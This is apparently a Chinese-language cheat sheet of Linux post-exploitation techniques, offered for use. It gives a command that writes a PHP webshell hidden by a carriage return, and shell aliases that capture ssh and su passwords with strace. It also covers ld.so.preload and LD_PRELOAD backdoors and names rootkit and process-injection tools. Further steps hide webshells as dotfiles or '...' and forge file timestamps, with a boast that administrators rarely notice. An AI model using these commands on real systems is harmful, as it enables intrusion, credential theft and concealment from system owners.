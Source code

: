 read more [[DARK] Weapons of Text Destruction](https://github.com/jaredestroud/WOTD/blob/master/%5BDARK%5D%20Weapons%20of%20%20Text%20Destruction.pdf)

**终端解析 \r 导致的问题**
```bash
echo -e "<?=\`\$_POST[good]\`?>\r<?='PHP Test Page >||<                  ';?>" >/var/www/html/test.php
```

**strace 记录 ssh 登录密码**

注意 bash_profile 是在登录的 shell 执行的,bashrc 是在非登录的 shell 执行,即如果你只是想每次在登录的时候让它去执行,这个时候你可以把你的命令写在 .bash_profile,如果你想每次打开一个新的终端的时候都去执行,那么应该把命令写在 .bashrc 中.
```bash
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'
# 也可记录 su 密码
alias su='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'

grep "read(3" /tmp/sshpwd-名字自己补全  | tail -n 11
```

**预加载型动态链接库后门 ld.so.preload**

在 linux 下执行某个可执行文件之前,系统会预先加载用户定义的动态链接库的一种技术,这个技术可以重写系统的库函数,导致发生 Hijack
strace 命令 id 的时候可以发现有预先去读取 `/etc/ld.so.preload` 文件(也可使用设置 LD_PRELAOD 环境变量方式),如果我们将事先写好的恶意 so 文件位置写入 ld.so.preload 文件,这个时候就会达到"劫持"的效果.
比较好用的工具有 Vegile 和 cub3 等
[cub3](https://github.com/mempodippy/cub3),这个工具使用了 LD_PRELOAD 和系统的扩展属性去隐藏文件.
其中还有一种是通过修改动态链接器来加载恶意动态链接库的后门,通过替换或者修改动态链接器中的默认预加载配置文件 `/etc/ld.so.preload` 路径的 rootkit,此方法更加隐蔽,这个方法的较成熟的利用工具是 [Vlany](https://github.com/mempodippy/vlany)

**进程注入**

使用 ptrace 向进程中注入恶意 so 文件工具[linux-inject](https://github.com/gaffe23/linux-inject/)

**内核级 rootkit**

如 mafix、[Diamorphine](https://github.com/m0nad/Diamorphine)

**藏文件和文件夹**
1. 比如创建一个名字开头带 `.` 的 Webshell 或者文件夹,默认情况下是不会显示出来的,浏览器访问的时候加点访问就行.(查看方法:ls -a)

    ```
    touch .webshell.php    创建名字为 .webshell.php 的文件
    mkdir .backdoor/       创建名字为 .backdoor 的文件夹
    ```

2. 除非在管理员喝多了或者脑子转不过来的情况下,是绝对不会发现的!至少我用了这么久是没几个发现的.如果是文件的话浏览器访问直接输 ... 就行,目录同理.

    ```
    touch ...       创建名字为 ... 的文件
    mkdir ...       创建名字为 ... 的文件夹
    ```

**Linux/Unix 修改文件时间戳**

直接将时间戳修改成某年某月某日.如下 2014 年 01 月 02 日.
`touch -t 1401021042.30 webshell.php`
